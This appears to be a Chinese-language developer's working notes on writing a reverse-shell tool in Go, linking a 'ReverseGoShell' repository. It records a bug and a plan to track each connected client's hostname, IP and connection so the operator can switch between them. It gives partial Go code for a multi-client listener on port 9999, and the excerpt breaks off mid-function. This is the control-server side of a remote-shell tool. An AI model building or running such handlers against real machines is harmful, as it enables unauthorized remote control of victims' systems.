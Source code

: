 [https://github.com/TheKingOfDuck/ReverseGoShell](https://github.com/TheKingOfDuck/ReverseGoShell) <br />bug 1.客户端退出去后，服务端就直接GG了

<a name="rtW4k"></a>
## 坑点的解决
单纯的socket通信，不接入客户端的exec命令执行，回车、啥的都是可以发送过去。<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1651163605803-2d8d715b-ce56-4e19-bd9e-bff04cb31006.png#averageHue=%23022658&clientId=uce8b88ca-f230-4&from=paste&height=462&id=u0d251906&originHeight=578&originWidth=1254&originalType=binary&ratio=1&rotation=0&showTitle=false&size=89778&status=done&style=none&taskId=uadfc5af4-f785-4a60-a503-f7ce620c812&title=&width=1003.2)

此时代码如下所示<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1651163656333-c0998446-58b4-474f-9746-83da0970fdd4.png#averageHue=%23fbfbf9&clientId=uce8b88ca-f230-4&from=paste&height=612&id=u61b164a3&originHeight=765&originWidth=971&originalType=binary&ratio=1&rotation=0&showTitle=false&size=73723&status=done&style=none&taskId=u00a38ee6-a457-44bf-a64e-bb906f80d81&title=&width=776.8)

<a name="vmMEJ"></a>
## 思路

存入  对应的序号、hostname、ip、conn →选择对应的序号进入对应的客户端


<a name="szgCl"></a>
## 进展
实习1对多接收多个客户端，socket长连接+循环
```go
package main

import (
	"bufio"
	"fmt"
	"net"
	"os"
)
var ConnMap map[int]Client= make(map[int]Client)
type Client struct {
	conn net.Conn
	hostname string
	addr string
}

func main() {
	var n int
	n= 0
	listen, err := net.Listen("tcp", "0.0.0.0:9999")  //开启监听
	fmt.Println("listenning...")
	if err != nil {
		fmt.Println("listent failed, err:", err)
		return
	}
	var hostname string
	var command1 string

	for {
		conn, err := listen.Accept() // 建立链接
		if err != nil {
			fmt.Println("accept failed, err:", err) // 三次握手失败
			continue
		}else{
			n++
			fmt.Printf("Accept() suc con=%v 客户端ip=%v\n", conn, conn.RemoteAddr().String())
			hostname,err=recv(conn)
			if err!=nil{
```